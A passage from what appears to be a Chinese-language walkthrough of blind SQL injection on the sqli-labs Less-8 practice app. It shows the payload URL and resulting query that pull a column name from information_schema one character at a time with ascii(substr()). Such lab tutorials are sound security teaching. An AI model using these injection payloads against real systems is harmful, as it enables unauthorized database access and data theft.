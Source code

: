 ![](盲注/photo/20.jpg)

#### 获取列名

同获取数据库中表名方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1),1,1))=105%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1),1,1))=105#' LIMIT 0,1
;
```

第一个列名为：`id`
